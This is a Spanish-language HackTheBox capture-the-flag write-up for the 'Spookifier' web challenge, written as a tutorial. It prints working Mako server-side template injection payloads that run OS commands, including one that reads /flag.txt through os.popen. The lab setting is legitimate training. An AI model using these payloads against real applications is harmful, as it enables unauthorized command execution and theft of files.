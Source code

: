 ```yaml
---
title: "HackTheBox - Challenge Spookifier"
summary: "Vamos a ver el paso a paso detallado de como ir resolviendo el challenge:"
date: "2025-04-01"
draft: false
tags:
- Tutorial
- HackTheBox
- Challenge
- Web
---
```

### Paso a paso:


- Enciendo el entorno virtual y entro a la direccion que me proporcionan: 
    ![Test Relative Image](./imagen.png)

<div style="height: 5px;"></div>

- Descargo el archivo .zip que me dan para el ejercicio.

<div style="height: 5px;"></div>

- Lo muevo a mi carpeta de trabajo.

<div style="height: 5px;"></div>

- Y lo descomprimo usando unzip, acordarse que la contrasena siempre va a ser 
    "hackthebox": 
    ![Test Relative Image](./imagen2.png)

<div style="height: 5px;"></div>

- Entro al archivo y empiezo a mirar:
![Test Relative Image](./imagen3.png)

<div style="height: 5px;"></div>

- En dockerfile veo que me dice que la flag esta en el directorio /flag.txt:
![Test Relative Image](./imagen4.png)

<div style="height: 5px;"></div>

- Además veo que usa python y una distro de python que es mako.

<div style="height: 5px;"></div>

- Busco PayloadsAllTheThings, que es un directorio de payloads.

<div style="height: 5px;"></div>

- Entro a Server Side Template Injection y busco una versión mas vieja para 
    que este mas ordenado.

<div style="height: 5px;"></div>

- Empiezo a probar payloads y descubro que:
    ${self.module.runtime.util.os.system("id")}

<div style="height: 5px;"></div>

- Pareciera funcionar y le cambio por :
    ${self.module.runtime.util.os.popen('id').read()}

<div style="height: 5px;"></div>

- Como en dockerfile decia que la flag estaba en el directorio /flag le hago un cat:
    ${self.module.runtime.util.os.popen('cat /flag.txt').read()}

<div style="height: 5px;"></div>

- Y descubro la flag:
![Test Relative Image](./imagen5.png)